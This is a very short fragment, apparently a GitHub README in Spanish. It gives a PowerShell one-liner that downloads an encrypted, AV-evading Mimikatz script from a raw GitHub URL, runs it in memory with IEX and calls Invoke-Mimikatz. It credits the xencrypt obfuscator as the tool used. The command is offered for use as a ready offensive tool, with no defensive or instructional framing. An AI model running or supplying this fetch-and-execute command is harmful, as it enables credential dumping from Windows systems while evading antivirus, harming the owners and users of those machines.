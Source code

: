 
Comando para que funciones:

powershell -nop -c "IEX(New-object net.webclient).downloadString('https://raw.githubusercontent.com/risataimpt/encrypt-cosas/master/Mimikatz-enco.ps1');Invoke-Mimikatz"

Esto es usando el script https://github.com/the-xentropy/xencrypt
